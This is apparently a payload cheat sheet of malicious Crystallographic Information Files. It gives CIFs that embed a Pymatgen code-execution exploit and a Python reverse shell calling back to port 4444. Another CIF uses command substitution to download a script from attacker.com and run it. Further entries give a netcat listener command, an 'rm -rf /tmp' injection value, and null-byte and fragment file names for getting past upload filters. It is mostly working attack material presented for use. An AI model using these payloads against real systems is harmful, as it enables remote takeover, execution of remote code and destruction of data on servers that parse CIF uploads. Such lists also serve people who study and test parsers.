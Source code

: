 # CIF (Crystallographic Information File) Payloads
----

- **CIF File with Embedded Python Reverse Shell: 1**
```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/192.168.10.15/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

- **CIF File with Embedded Python Reverse Shell: 2**
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M ';python3 -c "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'192.168.1.100\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\'/bin/bash\')" #'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

- **Malicious CIF File:**
```cif
data_test
_audit_creation_method '$(wget http://attacker.com/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh)'
loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
C 0.1 0.2 0.3
```
Start the listener:

```bash
nc -lnvp 4444 # Start the listener on the attacker side
```


- **Command injection:** If the backend parses the CIF file and interacts with a shell or external commands, inject malicious values
```cif
_cmd_field $(rm -rf /tmp)
```

- **Invalid Data Types:** Break expected numeric or textual fields.
```cif
_numeric_field not_a_number
```

- **File Upload Exploitation:**
```plaintext
malicious.cif%00.png
malicious.png#.cif
```




